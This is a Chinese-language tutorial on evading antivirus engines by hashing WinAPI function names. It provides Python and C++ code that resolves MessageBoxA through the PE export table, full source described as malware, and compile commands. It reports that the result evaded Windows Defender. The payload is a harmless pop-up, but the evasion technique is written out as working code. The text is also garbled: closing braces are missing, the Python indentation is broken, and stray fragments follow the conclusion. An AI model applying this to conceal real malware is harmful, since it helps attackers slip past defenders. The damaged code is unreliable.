\newpage
\subsection{AV 引擎规避技术（第 5 部分）：简单的 C++ 示例}

这一节是我自我研究另一个 AV 规避技巧的结果，一个如何在简单的 C++ 恶意软件中绕过 AV 引擎的示例。

{width="80%"}

### 哈希函数名

这是一种隐藏 WinAPI 调用的简单而有效的技术。

它通过哈希名来调用函数，既简单，又常在「野外」被使用。

我们来看一个例子，你就会明白这并不难。

### 标准调用

我们来看一个例子：

```cpp
#include <windows.h>
#include <stdio.h>

int main() {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;

```

编译：

```bash
i686-w64-mingw32-g++ meow.cpp -o meow.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -Wint-to-pointer-cast \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}

然后运行：

{width="80%"}

正如预期，那只是一个弹窗。

然后运行 strings：

```bash
strings -n 8 meow.exe | grep MessageBox
```

{width="80%"}

如你所见，WinAPI 函数在基本静态分析中被明确地读出，并且：

{width="80%"}

在应用程序的导入表中清晰可见。

### 哈希

现在让我们把正在使用的 WinAPI 函数 `MessageBoxA` 从恶意软件分析师眼前隐藏起来。

```python
# simple stupid hashing example
def myHash(data):
  hash = 0x35
  for i in range(0, len(data)):
  hash += ord(data[i]) + (hash << 1)
  print (hash)
  return hash

myHash("MessageBoxA")
```

然后运行它：

```bash
python3 myhash.py
```

{width="80%"}

### 实战示例

主要思路是：我们编写代码，通过枚举导出的 WinAPI 函数，用它的哈希名来查找 WinAPI 函数的地址。

首先，让我们声明一个与 python 代码逻辑完全相同的哈希函数：

```cpp
DWORD calcMyHash(char* data) {
  DWORD hash = 0x35;
  for (int i = 0; i < strlen(data); i++) {
  hash += data[i] + (hash << 1);
  }
  return hash;

```

然后，我声明了一个通过比较哈希值来查找 Windows API 函数地址的函数：

```cpp
static LPVOID getAPIAddr(HMODULE h, DWORD myHash) {
  PIMAGE_DOS_HEADER img_dos_header = (PIMAGE_DOS_HEADER)h;
  PIMAGE_NT_HEADERS img_nt_header = 
  (PIMAGE_NT_HEADERS)((LPBYTE)h + img_dos_header->e_lfanew);
  PIMAGE_EXPORT_DIRECTORY img_edt = (PIMAGE_EXPORT_DIRECTORY)(
  (LPBYTE)h + img_nt_header->
  OptionalHeader.
  DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].
  VirtualAddress);
  PDWORD fAddr = (PDWORD)((LPBYTE)h + 
  img_edt->AddressOfFunctions);
  PDWORD fNames = (PDWORD)((LPBYTE)h + 
  img_edt->AddressOfNames);
  PWORD  fOrd = (PWORD)((LPBYTE)h + 
  img_edt->AddressOfNameOrdinals);

  for (DWORD i = 0; i < img_edt->AddressOfFunctions; i++) {
  LPSTR pFuncName = (LPSTR)((LPBYTE)h + fNames[i]);

  if (calcMyHash(pFuncName) == myHash) {
  printf("successfully found! %s - %d\n", 
  pFuncName, myHash);
  return (LPVOID)((LPBYTE)h + fAddr[fOrd[i]]);
  }
  }
  return nullptr;

```

在循环中，我们会把传给函数的哈希值与导出表中各函数的哈希值作比较，一旦找到匹配就退出循环：

```cpp
//...
for (DWORD i = 0; i < img_edt->AddressOfFunctions; i++) {
  LPSTR pFuncName = (LPSTR)((LPBYTE)h + fNames[i]);

  if (calcMyHash(pFuncName) == myHash) {
  printf("successfully found! %s - %d\n", 
  pFuncName, myHash);
  return (LPVOID)((LPBYTE)h + fAddr[fOrd[i]]);
  }

//...
```

然后我们声明我们函数的原型：

```cpp
typedef UINT(CALLBACK* fnMessageBoxA)(
  HWND  hWnd,
  LPCSTR lpText,
  LPCSTR lpCaption,
  UINT  uType
);
```

以及 `main()`：

```cpp
int main() {
  HMODULE mod = LoadLibrary("user32.dll");
  LPVOID addr = getAPIAddr(mod, 17036696);
  printf("0x%p\n", addr);
  fnMessageBoxA myMessageBoxA = (fnMessageBoxA)addr;
  myMessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;

```

{width="80%"}

我们恶意软件的完整源代码是：

```cpp
/*
 * hack.cpp - hashing Win32API functions. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/03/22/simple-malware-av-evasion-5.html
*/
#include <windows.h>
#include <stdio.h>

typedef UINT(CALLBACK* fnMessageBoxA)(
  HWND  hWnd,
  LPCSTR lpText,
  LPCSTR lpCaption,
  UINT  uType
);

DWORD calcMyHash(char* data) {
  DWORD hash = 0x35;
  for (int i = 0; i < strlen(data); i++) {
  hash += data[i] + (hash << 1);
  }
  return hash;

static LPVOID getAPIAddr(HMODULE h, DWORD myHash) {
  PIMAGE_DOS_HEADER img_dos_header = (PIMAGE_DOS_HEADER)h;
  PIMAGE_NT_HEADERS img_nt_header = (PIMAGE_NT_HEADERS)(
  (LPBYTE)h + img_dos_header->e_lfanew);
  PIMAGE_EXPORT_DIRECTORY img_edt = (PIMAGE_EXPORT_DIRECTORY)(
  (LPBYTE)h + img_nt_header->
  OptionalHeader.
  DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].
  VirtualAddress);
  PDWORD fAddr = (PDWORD)((LPBYTE)h + 
  img_edt->AddressOfFunctions);
  PDWORD fNames = (PDWORD)((LPBYTE)h + 
  img_edt->AddressOfNames);
  PWORD  fOrd = (PWORD)((LPBYTE)h + 
  img_edt->AddressOfNameOrdinals);

  for (DWORD i = 0; i < img_edt->AddressOfFunctions; i++) {
  LPSTR pFuncName = (LPSTR)((LPBYTE)h + fNames[i]);

  if (calcMyHash(pFuncName) == myHash) {
  printf("successfully found! %s - %d\n", 
  pFuncName, myHash);
  return (LPVOID)((LPBYTE)h + fAddr[fOrd[i]]);
  }
  }
  return nullptr;

int main() {
  HMODULE mod = LoadLibrary("user32.dll");
  LPVOID addr = getAPIAddr(mod, 17036696);
  printf("0x%p\n", addr);
  fnMessageBoxA myMessageBoxA = (fnMessageBoxA)addr;
  myMessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;

```

### 演示

我们来编译我们的恶意软件 `hack.cpp`：

```bash
i686-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -Wint-to-pointer-cast \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

然后运行：

```cmd
.\hack.exe
```

{width="80%"}

{width="80%"}

我们可以看到，我们的逻辑起作用了！！！完美 :)

那 strings 呢？

```bash
strings -n 8 hack.exe | grep MessageBox
```

{width="80%"}

我们再来看一下导入地址表：

{width="80%"}

如果我们深入调查这个恶意软件，当然会找到我们的哈希值、`user32.dll` 之类的字符串等等。

但这只是一个案例研究。

{width="80%"}

我们把它上传到 VirusTotal：

<https://www.virustotal.com/gui/file/d33210e3d7f9629d3465b2a0cec0c490d2254fa1b9a2fd047457bd9046bc0eee/detection>

所以 65 个 AV 引擎中有 4 个把我们的文件检测为恶意。

注意我们成功规避了 Windows Defender :)

那经典 DLL 注入中的 WinAPI 函数呢？

我会自行研究，并在下一篇文章中写出来。

在真实的恶意软件中，哈希值还会额外用数学函数加以保护，并被额外加密。

例如 Carbanak 使用了几种 AV 引擎规避技术，其中之一就是 WinAPI 调用哈希。

我希望这篇文章能让蓝队意识到这项有趣的技术，同时为红队的武器库增添一件武器。

我们来计算它的哈希：

主要思路是什么？

这里的逻辑非常简单。

我们首先穿过 PE 头，找到我们需要的那部分导出函数。
